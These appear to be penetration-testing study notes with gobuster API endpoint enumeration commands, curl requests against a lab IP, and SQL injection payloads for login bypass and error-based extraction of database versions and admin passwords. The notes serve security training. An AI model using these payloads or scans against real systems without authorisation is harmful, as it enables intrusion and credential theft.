 
--- 


## API pentesting

Create pattern file for gobuster:
```shell
{GOBUSTER}/v1
{GOBUSTER}/v2
```

Run Gobuster to reveal endpoints:
```shell
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/big.txt -p pattern

# Further enum
gobuster dir -u http://<ip>:<port>/users/v1/admin/ -w /usr/share/wordlists/dirb/big.txt
```

Method not allowed: 
```bash
# Post data to an API:
curl -X POST --data "code=5*5" http://192.168.120.36:50000/verify

# PUT
curl -X PUT
```


--- 


## SQL Injection

_Trigger SQLi using `'`_

---

**Error-based SQLi:**

Login bypass payloads:
```bash
offsec' OR 1=1 -- //
admin' -- - 
```

The same login page might allow us to exfiltrate data:
```bash
# Get the version (MSSQL payload)
' or 1=1 in (select @@version) -- //
```

Retrieving all the data from a table at once might fail, instead retrieve 1 field at a time:
```bash
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
>[!info]
>Amount of columns that can be retrieved depends on the backend

---